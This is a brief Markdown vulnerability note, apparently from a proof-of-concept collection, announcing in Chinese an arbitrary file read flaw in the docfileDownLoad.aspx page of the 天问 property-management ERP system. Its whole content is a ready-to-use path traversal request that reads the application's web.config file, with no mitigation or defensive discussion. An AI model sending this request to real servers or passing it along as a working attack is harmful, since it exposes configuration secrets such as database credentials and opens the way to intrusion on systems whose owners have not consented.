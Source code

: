 ## 天问物业ERP系统docfileDownLoad.aspx存在任意文件读取漏洞


## poc
```
http://ip/HM/M_Main/WorkGeneral/docfileDownLoad.aspx?AdjunctFile=../web.config
```
